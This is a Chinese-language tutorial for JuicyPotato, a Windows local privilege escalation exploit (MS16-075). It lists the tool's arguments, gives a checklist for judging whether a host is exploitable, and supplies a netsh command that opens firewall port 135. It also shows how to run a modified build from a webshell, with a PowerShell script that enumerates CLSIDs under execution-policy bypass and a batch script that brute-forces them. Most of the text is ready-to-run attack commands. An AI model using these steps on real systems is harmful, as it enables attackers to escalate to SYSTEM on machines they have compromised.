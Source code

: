 # （CVE-2016-3225）【MS16-075】 JuicyPotato windows 本地提权漏洞

JuicyPotato是一款Windows提权工具，称为烂土豆，漏洞编号为MS16-075

官方地址：https://github.com/ohpe/juicy-potato

## 参数简介

简单利用

```
D:\>JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

Mandatory args:
-t createprocess调用: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: 运行指定程序
-l <port>: COM服务器侦听端口

Optional args:
-m <ip>: COM服务器侦听地址 (默认 127.0.0.1)
-a <argument>: 传递给程序命令行参数 (默认 NULL)
-k <ip>: RPC服务器IP地址 (默认 127.0.0.1)
-n <port>: RPC服务器侦听端口 (默认 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
https://github.com/ohpe/juicy-potato/tree/master/CLSID
-z 仅测试CLSID并打印令牌的用户
```

## 可否利用

1.whoami /priv

```
如果开启SeImpersonate权限：-t t
如果开启SeAssignPrimaryToken权限：-t u
如果均开启：-t *
如果均未开启：无法提权
```

2.查看RPC是否是135

如果被修改(例如为111)，juicypotato的参数可以使用-n 111指定RPC端口

找到另一系统，能够以当前用户的权限进行远程RPC登录，此时juicypotato的参数可以使用-k

Windows默认配置下，允许135端口的入站规则即可进行远程RPC登录。

添加防火墙规则允许135端口入站的命令如下：

netsh advfirewall firewall add rule name=“135” protocol=TCP dir=in localport=135 action=allow

3.选择可用的CLSID

参考列表：https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

根据你的系统类型选择CLSID（EG:{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}）

然后-c指定即可

4.选择一个系统未占用的端口作为监听端口

-l参数指定即可

## WebShell使用JuicyPotato

WebShell因为无法另外调用cmd所以需要使用修改过的JuicyPotato

```
JuicyPotato-webshell.exe -p “whoami”
```

新建`get-clid-2012.ps1`

```
New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT | Out-Null
$CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
foreach($a in $CLSID)
{
	Write-Host $a.CLSID
}
```

列出所有CLSID到`CLSID.list`中

```
Powershell -ep bypass -f get-clid-2012.ps1 > CLSID.list
```

新建`juicypotato.bat`

```
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION

FOR /F %%i IN (CLSID.list) DO (
   echo %%i !port!
   juicypotato-webshell.exe -c %%i -p "whoami" >> result.log
   set RET=!ERRORLEVEL!
   :: echo !RET!
   if "!RET!" == "1"  set /a port=port+1
)
```

运行`juicypotato.bat`随后根据log的相关输出，选择合适的CLSID进行权限提升即可



> http://emonsec.com/web/590.html